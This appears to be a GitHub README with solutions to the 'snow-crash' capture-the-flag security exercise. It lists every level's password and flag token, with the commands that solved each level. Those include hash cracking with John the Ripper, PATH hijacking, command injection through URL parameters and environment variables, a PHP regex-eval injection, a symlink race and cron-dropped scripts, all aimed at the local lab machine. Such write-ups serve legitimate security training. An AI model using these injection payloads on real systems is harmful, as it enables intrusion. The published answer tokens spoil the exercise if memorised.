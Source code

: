 # snow-crash
This project will be an introduction to cyber security.

## Passwords

| User    | Password                  |
| :-----: |:-------------------------:|
| level00 | level00                   |
| flag00  | nottoohardhere            |
| level01 | x24ti5gi3x0ol2eh4esiuxias |
| flag01  | abcdefg                   |
| level02 | f2av5il02puano7naaf6adaaf |
| flag02  | ft_waNDReL0L              |
| level03 | kooda2puivaav1idi4f57q8iq |
| level04 | qi0maab88jeaj46qoumi7maus |
| level05 | ne2searoevaevoem4ov4ar8ap |
| level06 | viuaaale9huek52boumoomioc |
| level07 | wiok45aaoguiboiki2tuin6ub |
| level08 | fiumuikeil55xe9cu4dood66h |
| flag08  | quif5eloekouj29ke0vouxean |
| level09 | 25749xKZ8L7DkSCwJkT9dyv6f |
| flag09  | f3iji1ju5yuevaus41q1afiuq |
| level10 | s5cAJpM8ev6XHw998pRWG728z |
| flag10  | woupa2yuojeeaaed06riuj63c |
| level11 | feulo4b72j7edeahuete3no7c |
| level12 | fa6v5ateaw21peobuub8ipe6s |
| level13 | g1qKMiRpXf53AWhDaU7FEkczr |

## Script

### level00

```bash
level00@SnowCrash:~$ find / -user flag00 2>/dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```

```bash
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```

- [identify encryption method](https://www.dcode.fr/identification-chiffrement)
- [decrypt cesar code](https://www.dcode.fr/chiffre-cesar)

### level01

```bash
flag00@SnowCrash:~$ cat /etc/passwd | grep flag01
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

Using ``john the ripper`` I was able to find corresponding password.

```bash
user@hostname:~$ echo "42hDRfypTqqnw" > /tmp/password-file && john /tmp/password-file && john -show /tmp/password-file
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
No password hashes left to crack (see FAQ)
?:abcdefg
1 password hash cracked, 0 left
```

### level02

Open ``level02.pcap`` in wireshark then Statistics -> Conversations -> Tab TCP -> Follow Stream

### level03

```bash
level03@SnowCrash:~$ strings ./level03 | grep Exploit
/usr/bin/env echo Exploit me
level03@SnowCrash:~$ cp /bin/getflag ./echo
level03@SnowCrash:~$ PATH=$PWD ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### level04

```bash
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

### level05

```bash
echo "getflag > /tmp/log" > /opt/openarenaserver/foo
sleep 120
cat /tmp/foo
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### level06

```bash
level06@SnowCrash:~$ echo '[x {$z(getflag)}]' > file
level06@SnowCrash:~$ ./level06 file shell_exec
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag x Here is your token : wiok45aaoguiboiki2tuin6ub
```

### level07

```bash
level07@SnowCrash:~$ LOGNAME='`getflag`' ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
### level08

```
level08@SnowCrash:~$ mv token toto && ./level08 toto
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

### level09

```bash
level09@SnowCrash:~$ echo '#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int passwd[26] = { 102,  52, 107, 109, 109,  54, 112, 124,  61, 130, 127, 112, 130, 110, 131, 130, 68,  66, 131,  68, 117, 123, 127, 140, 137,  10 };

    for (int i = 0; i < 26; i++)
        printf("%c", (passwd[i] - i >= 20) ? passwd[i] - i : 20);
    printf("\n");
    return (EXIT_SUCCESS);
}' > main.c && gcc -std=gnu99 main.c && ./a.out
f3iji1ju5yuevaus41q1afiuq
```
```
level09@SnowCrash:~$ su flag09
Password:
Don't forget to launch getflag !
flag09@SnowCrash:~$ getflag
Check flag.Here is your token : s5cAJpM8ev6XHw998pRWG728z
```

### level10

Run in parallele these 3 commands.
```bash
for i in $(seq 1 10000); do netcat -lv 6969 2>&1 | grep -v "Connection\|toto\|.*( )*."; done
```
```bash
for i in $(seq 1 10000); do rm -f toto && ln -s token toto && rm -f toto && echo "toto" >toto; done
```
```bash
for i in $(seq 1 10000); do ./level10 toto 127.0.0.1; done
```
It will eventually give :
```
level10@SnowCrash:~$ for i in $(seq 1 10000); do netcat -lv 6969 2>&1 | grep -v "Connection\|toto\|.*( )*."; done
woupa2yuojeeaaed06riuj63c
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

### level11

```bash
level11@SnowCrash:~$ curl localhost:5151/'$(getflag) > /tmp/flag' && cat /tmp/flag
Password: Erf nope..
GET /Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s HTTP/1.1
```

### level12

```bash
level12@SnowCrash:~$ echo '#!/bin/bash' > /tmp/FLAG && echo 'getflag > /tmp/FLAG' >> /tmp/FLAG && chmod 777 /tmp/FLAG && curl 'localhost:4646?x=`/???/flag`&y=toto' && cat /tmp/FLAG
.Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
